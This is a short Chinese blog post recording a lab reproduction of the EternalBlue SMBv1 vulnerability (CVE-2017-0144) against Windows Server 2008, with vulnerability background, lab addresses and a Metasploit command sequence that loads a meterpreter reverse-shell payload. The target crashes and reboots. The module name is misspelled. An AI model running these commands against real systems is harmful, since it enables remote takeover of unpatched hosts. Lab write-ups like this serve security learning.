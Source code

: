 ```yaml
---
title: "Windows Server 2008 CVE20170144验证"
date: 2021-05-26T18:08:33+08:00
lastmod: 2021-05-26T18:08:33+08:00
description: windows缓冲区溢出漏洞测试
# weight: 1
# aliases: ["/first"]
draft: false
author: "嘟囔"
# author: ["Me", "You"] # multiple authors
enableTOC: true
tags: ["缓冲区溢出", "漏洞"]
categories: ["Vulnerability"]
---
```

<iframe frameborder="no" border="0" marginwidth="0" marginheight="0" width=330 height=86 src="//music.163.com/outchain/player?type=2&id=29567192&auto=1&height=66"></iframe>  

歌挺好听，奈何水文太短，看完歌都没听完。😂抱歉了~嘿嘿嘿

本文也是照着别人写的例子完全操作成功了，然后再记录下来的，为方便以后使用，特此整理记录。

### 漏洞信息
CVEID：2017-0144  
漏洞名称：Windows server 2008系列缓冲区溢出漏洞（永恒之蓝）  
发布时间：2017-03-14

### 漏洞简介
Server Message Block（SMB）Server是为计算机提供身份验证用以访问服务器上打印机和文件系统的组件。 Microsoft Windows中的SMBv1服务器存在远程代码执行漏洞。远程攻击者可借助特制的数据包利用该漏洞执行任意代码。

### 实验环境
Kali x64（攻击机）：192.168.0.6  
Windows server 2008 x64（靶机）：192.168.0.9

```sh
msfconsole
use exploit/windows/smb/ms17_010_eternalbluer
set LHOST 192.168.0.6 
set RHOST 192.168.0.9 
set PAYLOAD windows/x64/meterpreter/reverse_tcp
exploit
```

![winserver2008attack1](/images/posts/winserver2008attack1.png)



![winserver2008attack2](/images/posts/winserver2008attack2.png)



### 现象：

靶机windows server 2008 x64蓝屏宕机重启。

 ![winserver2008crush](/images/posts/winserver2008-crush.png)
